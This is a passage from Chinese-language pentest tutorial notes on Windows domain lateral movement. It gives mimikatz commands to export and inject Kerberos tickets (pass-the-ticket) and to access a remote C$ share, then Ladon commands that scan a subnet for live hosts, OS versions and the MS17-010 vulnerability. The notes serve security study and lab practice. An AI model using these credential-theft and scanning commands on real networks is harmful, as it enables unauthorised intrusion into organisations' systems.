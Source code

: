3.查看凭证 klist

![68-16](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-16.png)

4.利用

```shell
dir \\192.168.3.21\c$
```



#### 第三种利用本地票据(需管理权限)

因为当前主机肯定之前与其他主机连接过，所以本地应该生成了一些票据，我们可以导出这些票据，然后再导入票据，利用。该方法类似于cookie欺骗。

缺点：票据是有有效期的，一般为10小时，所以如果当前主机10h之内连接过域控的话，我们可以利用该票据，但是如果超过10h，就没法利用。

导出本地票据(需管理权限)到当前目录

```
sekurlsa::tickets /export
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-17.png)

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-18.png)

导入票据

```shell
kerberos::ptt xxxxxxxxxx.xxxx.kirbi
```

![](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-19.png)

![68-20](https://typora-1310579726.cos.ap-shanghai.myqcloud.com/images/68-20.png)



利用票据

总结：ptt 传递**不需本地管理员权限**，连接时**主机名连接**，基于漏洞,工具,本地票据



## 国产 Ladon 内网杀器测试验收-信息收集,连接等

信息收集-协议扫描-漏洞探针-传递攻击等

github：[Release Ladon 911 ](https://github.com/k8gege/Ladon/releases/tag/v911)

官网：http://k8gege.org/Ladon/

具体用法请查看官网wiki，举例如下

```
Ladon.exe 192.168.1.8/24 OnlinePC 扫当前机器所处C段的存活主机，其它模块同理
Ladon.exe 192.168.1.8/24 OsScan 扫当前机器所处C段操作系统版本，其它模块同理
Ladon.exe 192.168.1.8/24 MysqlScan 扫当前机器所处C段的ssh端口，其它模块同理
Ladon 192.168.1.8/24 MS17010 扫当前机器所处C段的永恒之蓝漏洞，其它模块同理
参考：https://www.cnblogs.com/zpchcbd/p/11944486.html
```
